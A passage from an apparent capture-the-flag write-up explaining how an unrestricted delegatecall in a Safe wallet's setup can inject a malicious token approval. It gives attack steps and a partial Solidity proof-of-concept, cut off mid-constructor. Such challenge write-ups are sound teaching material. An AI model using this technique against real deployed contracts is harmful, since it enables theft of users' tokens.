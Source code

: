 During the wallet creation process, we notice that in the `Safe` contract's `setup` function, a delegatecall can be made to the address to through the `setupModules` function. This call is unrestricted, providing an opportunity to exploit the process.

After the safe wallet is created, it will receive 10 DVT tokens from the `WalletRegistry`. To exploit this, we can inject a malicious token approval by leveraging the delegatecall to execute the approval through a malicious contract. However, simply using delegatecall to call the DVT contract’s approve method won’t change the DVT allowance, as the delegatecall operates in the context of the `WalletRegistry` and not the DVT contract itself.

To bypass this limitation, the attacker can deploy a malicious contract designed to call the DVT contract’s approve function. By directing the delegatecall to this malicious contract, it can then invoke the approve method on the DVT contract, effectively altering the allowance and gaining control over the DVT tokens.

### Attack steps:

1. Deploy a malicious contract that only deal with token approval
2. Use crafted setup calldata to trigger token approval via the malicious contract during the `Safe` wallet creation.
3. Transfer the approved DVT tokens to the attacker's recovery address.

## PoC test case

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {WalletRegistry} from "./WalletRegistry.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {Safe} from "@safe-global/safe-smart-account/contracts/Safe.sol";
import {SafeProxyFactory} from "@safe-global/safe-smart-account/contracts/proxies/SafeProxyFactory.sol";

contract MaliciousApprove {
    function approve(address token, address spender) external {
        IERC20(token).approve(spender, 10 ether);
    }
}

contract AttackWalletRegistry {
    address private immutable token;
    address private immutable singletonCopy;
    address private immutable walletFactory;
    address private immutable walletRegistry;
    address private immutable recovery;
    address private immutable maliciousApprove;

    address[] private users;

    constructor(
        address _token,
        address _singletonCopy,
        address _walletFactory,
        address _walletRegistry,
        address _recovery,
        address[] memory _users
    ) {
        token = _token;
        singletonCopy = _singletonCopy;
        walletFactory = _walletFactory;
        walletRegistry = _walletRegistry;
```